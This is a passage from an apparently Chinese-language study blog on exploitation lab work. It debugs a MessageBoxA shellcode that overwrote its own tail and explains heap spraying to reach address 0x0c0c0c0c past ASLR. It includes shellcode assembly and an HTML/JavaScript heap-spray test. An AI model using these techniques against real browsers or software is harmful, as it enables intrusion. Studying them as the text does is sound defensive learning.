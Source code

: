 然而总是一运行就崩溃。我用OD单步，能够跟进并执行到payload的开头，这说明没有DEP和GS，同时也绕过了ASLR。后来发现payload执行几步后，其自身尾部的指令发生了变化。于是我想到这可能是payload自身压栈操作导致的问题。参考[0day安全 Chapter 3 开发shellcode的艺术](https://wohin.me/0day/2018/06/14/0day3.html)，这个弹窗payload的开头部分如下：

```assembly
cld
push 0x1e380a6a ; MessageBoxA
push 0x4fd18963 ; ExitProcess
push 0x0c917432 ; LoadLibraryA
mov esi, esp ; esi = addr of first function's hash
lea edi, [esi - 0xc] ; edi = addr to start writing function
; get some stack space
xor ebx, ebx
mov bh, 0x04
sub esp, ebx
; push a pointer to "user32" onto stack
mov bx, 0x3233 ; rest of ebx is null (bx is "32")
push ebx
push 0x72657375 ; "user"
push esp ; the pointer
xor edx, edx
```

这刚好导致payload的尾部一些字节被覆盖掉。其实，我们只需要168字节的payload与其前面92字节的nop调换位置就好，这样将是nop被覆盖，没关系。

最后测试如下：

![Bildschirmfoto 2018-11-01 um 9.58.47 AM.png]({{ site.url }}/images/0day/60E3EE35CFB44453DC9ED18D79B83631.png)

## 利用Heap Spray技术定位内存地址

堆喷的原理很简单：将shellcode布置在堆中，然后将控制流劫持到堆去执行shellcode（劫持指覆盖返回地址、SEH处理函数指针、虚函数指针等，根据实际情况选择）。那么劫持到哪里呢？劫持到一个固定的地址，比如`0x0c0c0c0c`。我们确保这个地址极大概率是通向shellcode的slide。怎么确保呢？我们知道，堆是从低地址向高地址增长的，而`0x0c0c0c0c / 1024 / 1024 = 192`，所以如果我们能够控制在堆上分配200个1MB的内存块，每一个内存块均用（类）空指令和payload填充，那么一定会覆盖到`0x0c0c0c0c`（比喻成“喷射”很形象），因此上述攻击方案是可行的。一个payload区区几百字节，只占1MB极小的一部分，所以`0x0c0c0c0c`这个地址刚好落在payload中间的概率将非常小。这样的攻击方式很明显绕过了ASLR对堆地址的随机化。这种攻击方式可以图解如下：

![Bildschirmfoto 2018-11-01 um 7.58.09 PM.png]({{ site.url }}/images/0day/231A08CFFCE168294ABCC5CE2F1B8197.png)

上述说法其实有一个纰漏：如果ASLR使得堆从高于`0x0c0c0c0c`的地址开始分配怎么办？这种情况不会发生，至少在我们的实验环境下不会发生。我们可以做一个小测试。编写如下一段HTML：

```html
<html>
  <script>
    var nops = unescape("%u9090%u9090");
	while(nops.length < 0x100000 / 2)
		nops += nops;
	nops = nops.substring(0, 0x100000 / 2 - 32 / 2 - 4 / 2 - 2 / 2 - 2);
	nops = unescape("%u8281%u8182") + nops;
	var memory = new Array();
	for(var i = 0; i < 200; i++)
		memory[i] += nops;
  </script>
</html>
```
